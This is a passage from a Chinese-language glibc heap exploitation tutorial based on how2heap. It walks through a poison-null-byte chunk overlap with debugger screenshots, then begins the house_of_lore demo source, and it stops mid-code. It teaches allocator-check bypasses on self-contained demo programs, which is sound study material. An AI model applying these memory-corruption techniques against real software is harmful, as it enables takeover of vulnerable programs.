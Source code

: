 ​    编译完成之后，单步调试。首先申请了4个chunk，分别是a、b、c和一个防止与top chunk合并的chunk。

​     ![image-20211226160943389](/assets/wgpsec/images/heap/image-20211226160943389.png)

​    接下来为了绕过size和next chunk的prev_size的检查，我们在chunk b的末尾伪造了一个0x200大小的prev_size

 ![image-20211226160947926](/assets/wgpsec/images/heap/image-20211226160947926.png)

   然后把b给free掉，通过编辑chunk a来更改b的size的最后一位为0x00。

 ![image-20211226160952228](/assets/wgpsec/images/heap/image-20211226160952228.png)

​     这时候c那里的prev_size还是之前的，因为更改了b的size，所以找的时候会找b + 0x200的，而真正的prev_size位在0x210处，也正是这样让我们绕过了chunksize(P) = prev_size(next_chunk(P))的检测。

   接下来申请一个0x100大小的chunk，因为b已经被free了，所以glibc会将b进行切割，分出一块0x100大小的堆块给b1，剩下0xf0。

 ![image-20211226160956897](/assets/wgpsec/images/heap/image-20211226160956897.png)

   接下来再去申请一块小于0xf0的堆块，这样就会继续分割b剩下的那一块（我们把这次申请的堆块填充上’B’来区分）。

 ![image-20211226161002057](/assets/wgpsec/images/heap/image-20211226161002057.png)

   接下来free掉b1和c，因为c的prev_size仍然是0x210，按照这个去找的话就可以找到原本的b，现在的b1的位置，那么他们俩会合并，但是中间还有个b2呢。这里how2heap有一个注释。

```c
Typically b2 (the victim) will be a structure with valuable pointers that we want to control
通常b2（受害者）将是一个结构，其中包含我们要控制的有价值的指针
```

 ![image-20211226161007121](/assets/wgpsec/images/heap/image-20211226161007121.png)

   那么接下来的事情就是申请一块大的chunk，然后随便改写b2的内容了。

 ![image-20211226161037363](/assets/wgpsec/images/heap/image-20211226161037363.png)

##  house_of_lore

​    源码如下。

 ```c
 #include <stdio.h>
 #include <stdlib.h>
 #include <string.h>
 #include <stdint.h>
 
 void jackpot(){ fprintf(stderr, "Nice jump d00d\n"); exit(0); }
 
 int main(int argc, char * argv[]){
 
   intptr_t* stack_buffer_1[4] = {0};
   intptr_t* stack_buffer_2[3] = {0};
   fprintf(stderr, "定义了两个数组");
   fprintf(stderr, "stack_buffer_1 在 %p\n", (void*)stack_buffer_1);
   fprintf(stderr, "stack_buffer_2 在 %p\n", (void*)stack_buffer_2);
 
   intptr_t *victim = malloc(100);
   fprintf(stderr, "申请第一块属于 fastbin 的 chunk 在 %p\n", victim);
   intptr_t *victim_chunk = victim-2;//chunk 开始的位置
 
   fprintf(stderr, "在栈上伪造一块 fake chunk\n");
   fprintf(stderr, "设置 fd 指针指向 victim chunk，来绕过 small bin 的检查，这样的话就能把堆栈地址放在到 small bin 的列表上\n");
   stack_buffer_1[0] = 0;
   stack_buffer_1[1] = 0;
   stack_buffer_1[2] = victim_chunk;
 
   fprintf(stderr, "设置 stack_buffer_1 的 bk 指针指向 stack_buffer_2，设置 stack_buffer_2 的 fd 指针指向 stack_buffer_1 来绕过最后一个 malloc 中 small bin corrupted, 返回指向栈上假块的指针");
 ```